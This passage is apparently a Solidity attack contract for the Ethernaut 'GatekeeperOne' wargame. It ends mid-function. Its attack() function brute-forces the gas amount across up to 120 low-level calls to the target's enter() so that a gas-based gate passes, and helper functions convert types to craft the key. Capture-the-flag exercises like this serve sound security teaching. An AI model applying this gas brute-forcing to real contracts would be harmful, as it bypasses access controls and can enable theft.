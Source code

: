 ```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.6.12;

contract CalculatedAttack {

    uint64 public value64;
    uint32 public value32;
    uint16 public value16;
    bytes2 public byte2;
    bytes4 public byte4;
    bytes8 public byte8;
    bytes8 public mask;
    bool public gate2Success;
    uint256 public tries;

    address public keeper;

 
    function setGatekeeperOne(address _addr) public{
        keeper =_addr;
    }
    
    // Keep calling enter() until gate2 passes.
    function attack(bytes8 _key) public {
        // Max 121 calls will be made until call is successful
         for (uint256 i = 0; i < 120; i++) {
             // low level call stops reverts from bubbling
         (bool result, bytes memory data) = address(keeper).call{gas:
          i + 150 + 8191*3}(abi.encodeWithSignature("enter(bytes8)", _key)); // thanks to Spalladino https://github.com/OpenZeppelin/ethernaut/blob/solidity-05/contracts/attacks/GatekeeperOneAttack.sol
      if(result)
        {
        gate2Success = true;
        tries = i;
        break;
      }
    }
  }

    function uint64ToBytes8(uint64 input) public {
        byte8 = bytes8(input);
    } 
    function uint32ToBytes4(uint32 input) public {
        byte4 = bytes4(input);
    } 
    function uint16ToBytes2(uint16 input) public {
        byte2 = bytes2(input);
    } 

    function uint64ToUint32(uint64 input) public {
        value32 = uint32(input);
    } 
    function uint64ToUint16(uint64 input) public {
        value16 = uint16(input);
    } 

    
    function bytes8ToUint64(bytes8 input) public {
        value64 = uint64(input);
    } 
    function bytes8ToUint32(bytes8 input) public {
```